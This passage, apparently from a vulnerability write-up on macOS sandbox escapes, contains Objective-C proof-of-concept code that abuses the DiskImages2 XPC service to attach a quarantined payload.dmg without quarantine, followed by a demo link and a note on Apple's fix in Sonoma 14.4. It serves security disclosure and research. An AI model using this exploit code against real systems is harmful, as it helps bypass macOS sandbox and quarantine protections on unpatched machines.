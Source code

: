 ```
@end
void exploit_diskimages2(void) {
    [[NSBundle bundleWithPath:@"/System/Library/PrivateFrameworks/DiskImages2.framework"] load];
    NSXPCConnection * conn = [[NSXPCConnection alloc] initWithServiceName:@"com.apple.diskimagescontroller"];
    conn.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(DIControllerProtocol)];
    conn.exportedInterface = [NSXPCInterface interfaceWithProtocol:@protocol(DIController2ClientProtocol)];
    conn.exportedObject = [[DIController2Client alloc]init];
    [conn resume];
    id proxy = [conn remoteObjectProxy];
    
    // [proxy dupWithStderrHandle:[NSFileHandle fileHandleWithStandardError] reply:^(NSError *err) {}];
    DIAttachParams *params = [[DIAttachParams alloc] initWithURL:[NSURL fileURLWithPath:@"payload.dmg"] error:nil];
    [proxy attachWithParams:params reply:^(NSError *err) { // the quarantined payload.dmg (dropped by this sandboxed app) will be attached without being quarantined!
        NSLog(@"attach error:%@", err);
    }];
}
```

Demo link: https://youtu.be/FYcFwkgiGzw

### The patch

Apple addressed the vulnerability in macOS Sonoma 14.4 by **moving the verification logic from the client side to the server side**.

It will quarantine the corresponding device directly from the server, if the input file path is quarantined.



## CVE-2023-42977

<img src="../res/2024-11-7-A-New-Era-of-macOS-Sandbox-Escapes/image-20241019173015038.png" alt="image-20241019173015038" style="zoom:30%;" />

